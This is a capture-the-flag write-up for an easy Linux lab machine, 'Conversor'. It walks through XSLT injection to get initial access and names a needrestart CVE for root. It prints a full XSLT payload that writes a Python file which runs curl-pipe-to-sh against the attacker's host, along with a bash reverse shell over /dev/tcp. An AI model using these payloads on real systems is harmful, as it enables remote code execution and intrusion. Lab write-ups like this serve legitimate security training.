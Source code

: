 ```yaml
---

# COnversor (Easy): 10.10.11.92

![Icon](Images/coversoricon.png)


---
```


## Quick Overview

a new linux machine, with easy difficulty, that put in front of us :

1. **XSLT Exploitation** → Database Access → **USER.TXT**
2. **Needrestart 3.7 Privilege Escalation** → [CVE-2024-48990 Auto Exploit](https://github.com/Serner77/CVE-2024-48990-Automatic-Exploit) → *Thanks to @Serner77* → **ROOT.TXT**

---

## USER.TXT

### NMAP Enumeration

as with every machine we start with the nmap scan, that show as a classic 22/80 ports.

![Icon](Images/nmapscan.png)

we go to conversor web page, as first sight we see XML converation via XSLT, with a small round with the discover the source code in the About page.

in the Source code we got some valuabla informations, the most imprtants are :

1. XSLT is exploitable
2. you can run python scripts in the scripts directory, you can find this info in install.md
3. the users database is in instance directory

so first of all we will start with a reverse shell, by writing a python script, that will use curl to connect to our machine, that have aleardy a python http server prepared, to copy a reverse shell script, and lunche it to get our initial login.

so upload this XSLT File:

```XSLT
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:exploit="http://exslt.org/common"
    extension-element-prefixes="exploit"
    version="1.0">
<xsl:template match="/">
<exploit:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl 10.10.14.203:8000/shell.sh|sh")
</exploit:document>
</xsl:template>
</xsl:stylesheet>
```

and we prepare a python http server by using the command `python3 -m http.server`, where the reverse shell script exist:

```sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.203/9999 0>&1'
```

and last thing, nc listener.

and by that we get our initial access, as you can see 

![Icon](Images/xsltrevshell.png)







